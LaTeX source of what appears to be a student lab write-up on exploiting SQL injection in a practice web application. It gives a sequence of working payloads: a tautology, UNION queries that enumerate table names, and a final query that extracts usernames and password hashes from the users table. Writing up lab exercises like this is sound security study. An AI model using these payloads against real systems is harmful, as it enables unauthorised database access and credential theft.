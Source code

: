 \documentclass[11pt]{article}
\begin{document}
\subsubsection*{SQL Injection}
On the SQL Injection tab, there were several steps needed to get the right information to access all the login credentials. First,
\begin{verbatim}
  %' OR '1'='1
\end{verbatim}
was entered to check if this would return all records that are false and all that are true, as well. The results are shown in
Figure~\ref{fig:SQL-1}, confirming that we can use the the previous input as a prefix to other inputs that query the rest of the
information. For example, the next input was
\begin{verbatim}
  %' AND 1=1 UNION SELECT null, table_name FROM
    INFORMATION_SCHEMA.tables #
\end{verbatim}
which returned information about all the other databases the server maintains, as shown in Figure~\ref{fig:SQL-2}. Next, changing the
input to
\begin{verbatim}
  %' and 1=1 UNION SELECT null, table_name FROM
    INFORMATION_SCHEMA.tables WHERE table_name LIKE 'user%' #
\end{verbatim}
returned and confirmed the table name needed to find login credentials, \verb|users|, shown in Figure~\ref{fig:SQL-3}. To get the
credentials, the input was changed to
\begin{verbatim}
  %' and 1=1 UNION SELECT null,
    concat(0x0a,user,0x0a,password) from users #
\end{verbatim}
The results of this are shown in Figure~\ref{fig:SQL-4} and include the username and hashed password at the bottom of each entry.
\begin{figure}[htbp]
  \centering
  \texttt{[image: ./SQL-1.png]}
  \caption{\label{fig:SQL-1}
  First SQL injection to check sanitization}
\end{figure}
\begin{figure}[htbp]
  \centering
  \texttt{[image: ./SQL-2.png]}
  \caption{\label{fig:SQL-2}
  Result of query for table names (not all results shown)}
\end{figure}
\begin{figure}[htbp]
  \centering
  \texttt{[image: ./SQL-3.png]}
  \caption{\label{fig:SQL-3}
  Result of query for table names similar to 'user'}
\end{figure}
\begin{figure}[htbp]
  \centering
  \texttt{[image: ./SQL-4.png]}
  \caption{\label{fig:SQL-4}
  Result of query for user credentials}
\end{figure}\\
\end{document}
